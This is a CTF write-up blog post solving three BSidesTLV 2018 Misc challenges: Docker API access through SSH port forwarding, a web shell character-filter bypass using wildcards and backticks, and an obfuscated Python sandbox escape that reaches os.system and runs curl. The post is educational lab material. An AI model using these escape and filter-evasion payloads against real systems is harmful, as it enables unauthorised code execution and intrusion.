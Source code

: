 ```yaml
---
layout: post
title: "BSidesTLV: 2018 CTF (Misc)"
date: 2018-10-24 18:53:07 +0000
last_modified_at: 2018-12-09 08:12:55 +0000
category: CTF
tags: [BSidesTLV]
comments: true
image:
  feature: bsidestlv.jpg
---
```


This post documents my attempt to complete [BSidesTLV: 2018 CTF (Misc)](https://www.vulnhub.com/entry/bsidestlv-2018-ctf,250/). If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

The 2018 BSidesTLV CTF competition brought together over 310 teams burning the midnight oil to crack our challenges in a bout that lasted for two weeks. You can now enjoy the same pain and suffering, using this easy-to-use, condensed VM that now hosts all our challenges in an easy to digest format. The CTF has five categories:

+ Web (10 challenges)
+ Reverse Engineering (3 challenges)
+ Misc (3 challenges)
  1. <a href="#{{ 'DockingStation' | downcase | replace: ' ', '-'}}">DockingStation</a>
  2. <a href="#{{ 'c1337Shell' | downcase | replace: ' ', '-'}}">c1337Shell</a>
  3. <a href="#{{ 'PySandbox-Insane' | downcase | replace: ' ', '-'}}">PySandbox-Insane</a>
+ Forensics (1 challenge)
+ Crypto (2 challenges)

What follows is my humble attempt of cracking the challenges in the **Misc** category.

### DockingStation

This is how the challenge looks like.

<a class="image-popup">
![c7de4a68.png](/assets/images/posts/bsidestlv-misc/c7de4a68.png)
</a>

After logging in, this is what I found.

<a class="image-popup">
![d59d61f1.png](/assets/images/posts/bsidestlv-misc/d59d61f1.png)
</a>

If I had to guess, I would say that's a Unix socket connected to a Docker. And since I've the SSH credentials, I can make use of SSH local port forwarding and connect to the Docker like so.

<a class="image-popup">
![3581904c.png](/assets/images/posts/bsidestlv-misc/3581904c.png)
</a>

Look Ma, got access to Docker [API](https://docs.docker.com/engine/api/v1.37/) without using Unix socket.

<a class="image-popup">
![b6f6570d.png](/assets/images/posts/bsidestlv-misc/b6f6570d.png)
</a>

The stopped container with the image `galf` is highly suspicious. On second look, notice the reverse of `galf` is `flag`? This must be it.

My attempts to start the container resulted in an error.

<a class="image-popup">
![c4f4c07b.png](/assets/images/posts/bsidestlv-misc/c4f4c07b.png)
</a>

I came across the command to export the entire container as a tarball after consulting the API.

<a class="image-popup">
![770aa59a.png](/assets/images/posts/bsidestlv-misc/770aa59a.png)
</a>

After extracting the files from the tarball, the flag is at `/home/flag_is_here/flag.txt`.

<a class="image-popup">
![d6da982b.png](/assets/images/posts/bsidestlv-misc/d6da982b.png)
</a>

The flag is `BSidesTLV{i_am_r34dy_t0_esc4p3_th3_d0ck3r!}`.

### c1337Shell

This is how the challenge looks like.

<a class="image-popup">
![f566bc99.png](/assets/images/posts/bsidestlv-misc/f566bc99.png)
</a>

Let's visit the challenge URL.

<a class="image-popup">
![cb794b70.png](/assets/images/posts/bsidestlv-misc/cb794b70.png)
</a>

Appears to be a web shell. Turns out that it doesn't accept alphanumerical characters and `$&|\'<>`.

Look what happens when I supply a bad character?

<a class="image-popup">
![6806a44f.png](/assets/images/posts/bsidestlv-misc/6806a44f.png)
</a>

Now look what happens when I supply the tilde `~` character?

<a class="image-popup">
![1d3306cd.png](/assets/images/posts/bsidestlv-misc/1d3306cd.png)
</a>

In `bash`, the tilde `~` character represents the home directory of the current user. I suspect "the other side" is `echo`ing out shell output, whatever "the other side" is.

In that case, I should be able to use shell wildcards. The wildcard `?` and `*` represents single character and zero-or-more characters respectively.

Using these two wildcards, I was able to map out where the flag is.

<a class="image-popup">
![5aa73479.png](/assets/images/posts/bsidestlv-misc/5aa73479.png)
</a>

The problem now is this—how the f\*\*k do I display the flag with `cat`? With backticks `` `...` `` (or command substitution) and wildcards of course!

We know `cat` is at `/bin/cat`. We can use `/???/???` to represent it. Of course, there are other directories and commands behind that pattern. But, when you surround it with backticks, the shell should execute the command and skip the rest of the non-executable. Let's give it a shot.

<a class="image-popup">
![177cc70b.png](/assets/images/posts/bsidestlv-misc/177cc70b.png)
</a>

The flag is:

```
BSidesTLV{1_l1k3_wildcards_&_r3g3x_but_h8_th3_cr34t0r}
```

### PySandbox-Insane

This is how the challenge looks like.

<a class="image-popup">
![00261ba8.png](/assets/images/posts/bsidestlv-misc/00261ba8.png)
</a>

The aim of this challenge is to escape the sandbox and run the following code.

```py
import os; os.system("curl secret/flag.txt")
```

That's all. No more no less.

How do we crack this challenge then? Remember Python's axiom? _Everything is an object_. CPython provides [special methods](https://docs.python.org/3/reference/datamodel.html#special-method-names) to get/set attributes from/in an object. Essentially, CPython allows shortcuts or syntactic sugar for a simple statement such as `import os`. Under the hood, it's all special methods and/or special attributes at work.

For example, let's say you want to assign the integer `1` to variable `a`. This is how you do it in Python 2.7.

```
>>> a = 1
>>> a
1
```

Or, you can do it this way.

```
>>> __builtins__.__setattr__("a", 1)
>>> a
1
```

Which is another way of saying, "I'm setting an attribute with a name of 'a' and value of 1 in the `__builtins__` module." `__builtins__` is a module (an object by the way) that provides direct access to all the 'built-in' identifiers of Python. Use `__builtins__.__dict__` to view all the attributes of this object.

Armed with this simple introduction, how do we run the above code? Again, the challenge has provided the much-needed hints.

<a class="image-popup">
![53fa6e73.png](/assets/images/posts/bsidestlv-misc/53fa6e73.png)
</a>

If you look at the subclasses that inherit from `object`, you'll find that `warningmessage` is one of them.

<a class="image-popup">
![a9b63ff6.png](/assets/images/posts/bsidestlv-misc/a9b63ff6.png)
</a>

Dig deeper into the [source code](https://github.com/python/cpython/blob/2.7/Lib/warnings.py) of the `warnings` module, you'll see that the `warnings` module imports the `linecache` module.

<a class="image-popup">
![42b3f2fc.png](/assets/images/posts/bsidestlv-misc/42b3f2fc.png)
</a>

Further down the code, you'll find the `warnings.WarningMessage` class.

<a class="image-popup">
![c84f1469.png](/assets/images/posts/bsidestlv-misc/c84f1469.png)
</a>

We can continue into the [source code](https://github.com/python/cpython/blob/2.7/Lib/linecache.py) of the `linecache` module, and you'll see that it imports the `os` module.

<a class="image-popup">
![118b740a.png](/assets/images/posts/bsidestlv-misc/118b740a.png)
</a>

In summary, we can expand the code above like this.

```
obj = __builtins__.__class__.__mro__[1]
sub = obj.__subclasses__
war = sub()[58]
ini = war.__init__
glo = ini.func_globals
lin = glo["linecache"]
dic = lin.__dict__
ops = dic["os"]
run = ops.["system"]
run("curl secret/flag.txt")
```

Of course, certain words are still banned from use by the firewall. Recall how Python performs `a = 1` under the hood? It's actually setting an attribute in the `__builtins__` object. With that in mind, we can make use of another trick to bypass the firewall—first break up the banned words and then combine them back through concatenation. Python uses the `+` operator for string concatenation. In fact, Python uses `__add__` method-wrapper internally to do that.

For example, I can represent "curl" with `"cu".__add__("rl")`.

Here's the convoluted version. **Warning**: lots of typing ahead.

```py
__builtins__.__setattr__("obj",__builtins__.__getattribute__("__class".__add__("__")).mro(  ).__getitem__(1))
__builtins__.__setattr__("sub",obj.__getattribute__(obj,"__sub".__add__("classes__")))
__builtins__.__setattr__("war",sub( ).__getitem__(58))
__builtins__.__setattr__("ini",war.__getattribute__(war,"__in".__add__("it__")))
__builtins__.__setattr__("glo",ini.__getattribute__("__glo".__add__("bals__")))
__builtins__.__setattr__("lin",glo.__getitem__("line".__add__("cache")))
__builtins__.__setattr__("dic",lin.__getattribute__("__dic".__add__("t__")))
__builtins__.__setattr__("ops",dic.__getitem__("o".__add__("s")))
__builtins__.__setattr__("run",ops.__getattribute__("sy".__add__("stem")))
run("cu".__add__("rl	sec").__add__("ret/fl").__add__("ag.txt"))
```

I've also replaced space (`0x20`) with tab (`0x09`) to bypass the firewall.

<a class="image-popup">
![89b5efca.png](/assets/images/posts/bsidestlv-misc/89b5efca.png)
</a>

The flag is `BSidesTLV{I_AM_The_Python_Master}`.
